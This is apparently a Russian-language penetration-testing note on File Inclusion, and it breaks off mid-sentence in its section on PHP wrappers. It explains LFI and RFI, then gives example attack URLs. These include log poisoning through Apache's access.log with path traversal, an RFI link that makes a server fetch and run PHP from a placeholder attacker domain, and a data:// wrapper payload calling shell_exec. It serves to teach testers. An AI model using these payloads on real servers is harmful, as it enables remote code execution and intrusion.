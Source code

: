 _____
## File Inclusion
______
### Описание
Уязвимость, похожая на Path Traversal, за одним исключением: здесь файлы, на которые ссылаются пути не просто читаются, а исполняются на сервере. 
File Inclusion делется на два основных типа:
- LFI(Local File Inclusion) файл расположен в файловой системе этого же сервера.
- RFI(Remote File Inclusion) файл расположен на внешнем ресурсе.
В обоих случаях идёт выполнение кода на сервере и мы можем поменять путь/ссылку на этот файл, чтобы вместо него выполнялся другой файл.
______
### Поиск
Методология поиска почти идентична методологии поиска Path Traversal. Также, стоит попытаться заменить путь в параметре внешную ссылку, указывающую на страницу с кодом(как правило PHP).
______
### Эксплойт
______
#### LFI
Для экплатациия нужно загрузить наш файл на сервер. Это возможн далеко не всегда, поэтому надо искать обходные пути.
##### Отравление логов
Большинство Веб-серверов записывают все URL, к которым мы обращались в лог файл. Это значит, что можно отправить запрос, содержащий наш PHP код на сервер, чтобы этот код попал в логи, а после этого обратится к логу через уязвимый параметр для выполнения кода, записанного в него. Пример отравленного лога:
![[Pasted image 20230331140504.png]]
Для отправки такого запроса был **в чистом виде** отправлен PHP код на сервер.
После загрузки кода, нам надо его выполнить. Представим, что уязвимость есть по адресу `https://path.traversal73.com/calculators.php?cur=euro.php`. Как правило логи лежат по пути `/var/log/apache2/access.log`
Попробуем обратиться. Мы можем попытаться обратиться по прямому пути: `https://path.traversal73.com/calculators.php?cur=/var/log/apache2/access.log`
Или же, если это не работает, можем попытаться использвать Path Traversal:
`https://path.traversal73.com/calculators.php?cur=../../../../../var/log/apache2/access.log`
После этого команда должна без проблем выполниться.
______
#### RFI
Тут логика похожая, но нам не надо записовать файл на сервер, который мы эксплутаруем. Вместо этого мы сами захостим файл и скормим серверу ссылку на него. Пусть исполняет!
Представим, что уязвим тот же путь:
`https://path.traversal73.com/calculators.php?cur=euro.php`
А давай захостим на каком-нибудь хостинге файл по адресу :
`https://mydomainorip.ru/rfi.txt`
Сам файл сожержит PHP код, который спокойно выводится в браузере при переходе по ссылке. А пусть теперь сервер его выполнит! Меняем путь до локального скрипта на сервере на нашу ссылку:
`https://path.traversal73.com/calculators.php?cur=https://mydomainorip.ru/rfi.txt`
После этого код должен выполниться.
______
### PHP Wrappers
Враперы позволяют фильтровать и модифицировать данные. Их можно использовать когда нет возможности загрузить файл на сервер, но есть LFI. Например:
```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
Тут используется врапер data для того, чтобы направить данные напрямую: